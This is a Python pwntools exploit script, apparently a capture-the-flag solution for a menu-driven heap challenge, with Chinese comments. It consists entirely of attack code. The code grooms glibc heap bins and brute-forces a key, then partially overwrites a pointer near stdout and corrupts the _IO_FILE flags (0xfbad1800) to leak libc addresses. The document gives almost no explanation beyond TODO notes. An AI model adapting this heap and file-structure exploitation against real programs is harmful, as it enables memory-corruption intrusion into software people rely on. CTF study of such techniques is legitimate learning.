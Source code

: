 ```py

        def edit(idx,key,data):
            p.recvuntil("> ")
            p.sendline("2")
            p.recvuntil("Index: ",timeout = 1)
            p.sendline(str(idx))
            p.recvuntil("Key: ")
            p.sendline(str(key))
            p.recvuntil("Data")
            p.send(data)

        def delete(idx,key):
            p.recvuntil("> ")
            p.sendline("3")
            p.recvuntil("Index: ",timeout = 1)
            p.sendline(str(idx))
            p.recvuntil("Key: ")
            p.sendline(str(key))

        # TODO 试一下从 unsorted bin 这些里面拿堆块,需要申请一个块到 stdout 附近，试一下自修改那个有 libc_related_addr 的堆块，把他地址部分覆盖到 stdout 附近然后改内容
        # 由 notice 判断需要爆破一个东西
        for i in range(9):
            create(i,0,0x400,b"a"*8+b"\n")

        for i in range(8):
            delete(i,0)

        for i in range(7):
            create(i,0,0x400,b"a"*8+b"\n")
        create(7,0,0x300,b"a"*0x2e0 + p64(0) + p64(0x1ed11) + b"\n")
        # gdb.attach(p,"b* $rebase(0x1359)")
        # pause()
        create(9,0,0x800,b"a"*8+b"\n",False) # vuln
        # try edit main arena's top chunk to lower address
        # 爆破 key
        key = 0

        for i in range(0x1000):
            key = 0x7fff-i
            p.recvuntil("> ")
            p.sendline("2") # edit
            p.recvuntil("Index: ")
            p.sendline("9")
            p.recvuntil("Key: ")
            p.sendline(str(key))
            res = p.recv(4)
            print(res)
            if res == b"Data":

                log.info("key: " + hex(key))
                sleep(1)
                break
            else:
                continue
        if key == 0x7000:
            log.info("key: error!" + hex(key))
            continue
        # 可以覆盖为 x2f0
        p.send(b"\xf0\x32")

        create(10,0,0x400,b"a"*0x10 + p64(0)+p64(0x21)+p16(0xd780))
        edit(9,key,p64(0xfbad1800)+p64(0)*3 + p16(0xcce0)) # 改 write_start 为 main_arena + 96 的地址
```